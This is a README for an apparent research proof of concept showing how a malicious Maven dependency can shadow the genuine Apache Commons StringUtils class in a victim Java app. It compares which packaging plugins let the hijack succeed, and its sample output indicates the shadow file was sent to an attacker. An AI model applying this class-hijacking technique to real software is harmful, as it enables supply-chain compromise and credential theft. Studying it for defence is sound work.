 # Hijacking in abstract-project

There are two projects in this directory:
1. `install-me-first`. This project setups the dependency tree for the victim.
2. `victim`. This project contains the victim application.

## Normal Execution

1. ```shell
   install-me-first$ mvn clean install
   ```
   This will install dependencies `D1`, `D11`, and `D12` in the local Maven repository.
2. ```shell
   victim$ mvn clean package
   ```
   This will compile the victim application which is dependent upon `D1`.
3. ```shell
   victim$ java -jar target/victim-1.0.jar
   ```
   This will output:
   ```shell
   hello world!
   ```

## Malicious Execution

Simply change the first command to inject the malicious class `org.apache.
commons.lang3.StringUtils`.
   ```shell
   install-me-first$ mvn clean install -Pinject
   ```
### Ways to package the malicious class

1. `org.apache.maven.plugins:maven-shade-plugin` (default):
   ```shell
   mvn clean package
   java -jar target/victim-1.0.jar
   ```
   All the dependencies will be packaged into a single JAR file, including the malicious class.
2. `org.apache.maven.plugins:maven-assembly-plugin`
   ```shell
   mvn clean package -Passembly
    java -jar target/victim-1.0-jar-with-dependencies.jar
   ```
   Does not work in this case, as the resolves dependencies are [wrapped in 
   an unordered set](https://github.com/apache/maven-assembly-plugin/blob/ada2cc1c9025f32edb7bfd7fe7e630e9719a71d3/src/main/java/org/apache/maven/plugins/assembly/artifact/DefaultDependencyResolver.java#L247).
3. `org.apache.maven.plugins:maven-jar-plugin`:
   ```shell
    mvn clean package -Pjar
    java -jar target/victim-1.0.jar
   ```
   This plugin creates a JAR file and the dependencies are loaded from 
   another directory.
   The attack works because the order of the dependencies is preserved in the JAR file.

4. `org.springframework.boot:spring-boot-maven-plugin`:
   ```shell
    mvn clean package -Pspring
    java -jar target/victim-1.0-spring-boot.jar
   ```
   This plugin directly embeds the dependencies in the JAR file, and the malicious class is included.
   The order of the dependencies is also the same as resolved dependencies in 
   the JAR file.

5. `org.apache.felix:maven-bundle-plugin`:
   ```shell
    mvn clean package -Pbundle
    java -jar target/victim-1.0.jar
   ```
   The order of dependencies have to be reversed because unlike other 
   plugins, `maven-bundle-plugin` overrides the genuine `org.apache.commons.
   lang3.StringUtils` class with the malicious one if the malicious class is 
   present later in the classpath.

6. `io.quarkus:quarkus-maven-plugin`:
   ```shell
    mvn clean package -Pquarkus
    java -jar target/victim-1.0-quarkus.jar
   ```
   It gives a warning about the exact class being overridden, but the malicious class is still executed.
   ```text
   [WARNING] [io.quarkus.deployment.pkg.steps.JarResultBuildStep] Dependencies with duplicate files detected. The dependencies [dev.scored:D1::jar:1.0.0[paths: /home/aman/.m2/repository/dev/scored/D1/1.0.0/D1-1.0.0.jar;], org.apache.commons:commons-lang3::jar:3.17.0[paths: /home/aman/.m2/repository/org/apache/commons/commons-lang3/3.17.0/commons-lang3-3.17.0.jar;]] contain duplicate files, e.g. org/apache/commons/lang3/StringUtils.class
   ```
### Output

All these methods will result in the same output (except 
`maven-assembly-plugin`) when running the victim application:
```
shadow file sent to hacker ;)
hello world!
```